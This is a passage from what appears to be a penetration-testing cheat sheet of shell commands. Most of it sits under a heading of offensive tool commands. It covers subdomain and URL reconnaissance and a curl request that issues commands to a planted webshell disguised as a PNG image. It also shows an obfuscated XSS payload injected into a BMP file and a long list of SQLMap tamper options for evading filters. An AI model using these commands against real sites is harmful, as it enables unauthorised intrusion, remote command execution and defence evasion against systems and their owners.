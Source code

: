 ```shell
rdesktop 192.168.200.10
```

### Python simple http server

Start in new terminal!

```shell
sudo python -m SimpleHTTPServer 80
```

## Offensive Tool Commands

### Find subdomains of a website and save to file

```shell
assetfinder domain.com | anew filename
```

### Find if subdomains of website are alive or not

```shell
cat subdomain_list_file | httprobe | anew probed_urls
```

### Get all current and previous urls of a domain

```shell
gau domain.com | anew all_urls
```

### Perform request to webshell with command / C&C

```shell
curl -X POST https://website.com/assets/somefolder/cli.PNG -d "_=command"
```

### Inject JS payload inside image

```shell
python BMPinjector.py -i image.bmp "<scRiPt y='><'>/*<sCRipt* */prompt()</script"
```

### Get all parameters in a domain

```shell
python3 ~/ParamSpider/paramspider.py --domain https://www.website.com/ -o ~/WorkingDirectory/website_directory/pspider
```

### SQLMap tampers

```shell
--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,randomcomments,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```
